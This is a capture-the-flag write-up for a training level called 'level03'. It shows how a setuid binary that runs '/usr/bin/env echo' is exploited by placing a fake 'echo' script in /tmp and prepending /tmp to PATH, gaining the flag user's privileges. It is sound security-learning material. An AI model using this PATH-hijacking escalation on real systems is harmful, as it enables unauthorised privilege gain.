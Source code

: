 # Level03 : find flag03

## Tutorial 

1. Launching the `level03` binary : it says `Exploit me`
2. Checking the binary `strings ~/level03 | grep Exploit`:
   - result : `/usr/bin/env echo Exploit me`
   - we can see here that it loads the `env` for the command, we can use it by modifying the `$PATH`
3. Checking the permissions for `level03` binary, `ls -l level03` :  
   - result : `-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`
   - we can see here the `setuid` and `setgid` are set ! This means that when we execute `level03`, we execute it with the `uid` of `flag03` and the `gid` of `level03`.
4. Checking available folders where we can write and execute scripts with `ls -l /` :
   - result : `d-wx-wx-wx  4 root root  100 Apr 10 08:09 tmp`
   - we can write and execute programs in the `/tmp` folder
5. Writing program in `/tmp/echo`, `cat /tmp/echo` :
   - result : `getflag`
   - permissions (`ls -l /tmp/echo`): `----r-x--- 1 level03 level03 8 Apr 10 08:10 /tmp/echo`
   - these are the minimum permissions for `/tmp/echo` because we are executing `~/level03` with the `gid` of `level03` so it needs to be able to `r` and `x`, then `getflag` is executed with the `uid` of `flag03`
6. Executing `PATH=/tmp:$PATH ~/level03` by passing `/tmp` as file containing binaries
7. get flag for level03 !

## Notes

- Create file `/tmp/echo`
  - content : `getflag`
- Execute `PATH=/tmp:$PATH echo lol`
  - result : `lol`
- Execute `PATH=/tmp:$PATH /usr/bin/env echo`
  - result : `Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)`
- Summary : `/usr/bin/env` loads the environment variables of the user, this is necessary for the exploit

## Additional resources 

- Permissions (suid, sgid, sticky bit)
  - https://www.tecmint.com/how-to-find-files-with-suid-and-sgid-permissions-in-linux/
  - https://linux.goffinet.org/administration/securite-locale/permissions-linux/
  - https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits
- Alias don't execute in scripts by default, need to set the shell as interactive :
  - possible other solution, doesn't work here (check link) : `alias echo=getflag`
  - https://stackoverflow.com/questions/30130954/alias-doesnt-work-inside-a-bash-script

